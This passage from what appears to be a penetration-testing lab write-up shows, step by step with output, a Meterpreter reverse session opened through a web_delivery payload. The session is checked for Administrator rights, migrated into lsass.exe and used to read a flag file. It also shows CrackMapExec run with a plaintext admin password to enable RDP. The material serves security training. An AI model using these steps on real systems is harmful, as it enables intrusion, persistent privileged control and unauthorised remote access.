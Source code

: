 _Verify that the Meterpreter session has been successfully established, confirming control over the target machine._

```
[*] 10.4.23.124      web_delivery - Delivering Payload (1892 bytes)
[*] Sending stage (176195 bytes) to 10.4.23.124
[*] Meterpreter session 1 opened (10.10.42.2:4444 -> 10.4.23.124:49789) at 2024-08-20 20:14:06 +0530 ←
```

_Interact with the opened Meterpreter session to gain full control over the target machine._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Check the user context of the Meterpreter session to confirm that it is running with `Administrator` privileges._

`getuid`:
```
Server username: EC2AMAZ-408S766\Administrator ←
```

_Migrate the Meterpreter process to `lsass.exe` to ensure persistence and stability of the session by attaching to a critical system process._

`migrate -N lsass.exe`:
```
[*] Migrating from 1012 to 708...
[*] Migration completed successfully. ←
```

_Use the shell command to search for files with the keyword `flag` and retrieve the contents to obtain the flag for the lab._

`shell`, `where /r C:\ ""*flag*"`:
```
C:\flag.txt ←
```

_Read the contents of the flag file to complete the objective._

`type C:\flag.txt`:
```
dc6738a4ac0d7a4a379eb300d84af6ae ←
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Enable Remote Desktop Protocol (RDP) on the target machine using CrackMapExec, allowing you to connect via RDP for further control or examination._

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -M rdp --options`:
```
[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!)
WEB_DELI... 10.4.23.124     445    EC2AMAZ-408S766  [+] Executed web-delivery launcher
root@attackdefense:~# crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -M rdp --options                                
[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'
[*] rdp module options:

            ACTION  Enable/Disable RDP (choices: enable, disable) ←

```
